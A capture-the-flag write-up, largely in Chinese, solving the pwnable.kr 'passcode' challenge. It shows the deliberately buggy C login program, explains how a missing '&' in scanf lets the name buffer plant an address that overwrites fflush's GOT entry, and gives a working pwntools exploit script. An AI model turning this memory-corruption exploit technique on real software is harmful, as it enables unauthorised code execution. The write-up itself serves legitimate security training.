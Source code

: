```c
#include <stdio.h>
#include <stdlib.h>
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
	welcome();
	login();
	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

login()裡面的`scanf("%d", passcode1)`沒有用`&`字號 (執行時會把值存到裡面 所以我們可以構造記憶體位置塞在passcode1)

然後passcode1跟name的位置差96bytes

所以我們可以把4bytes位置塞到passcode1裡面 (scanf執行時會把值存到裡面 所以我們可以構造記憶體位置塞在passcode1中)

然後在scanf那邊在輸入我們要的值

於是把頭腦動到`fflush(stdin)`的GOT位置(0x0804a000)

然後在scanf那邊輸入`system("/bin/cat flag")`的指令位置(0x080485E3)

exploit: 
```python
from pwn import *
r = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
# r = process('./passcode')
print r.recv()
r.sendline('a'*96+p32(0x0804a000))
print r.recv()
r.sendline(str(0x080485E3))
print r.recv()
```
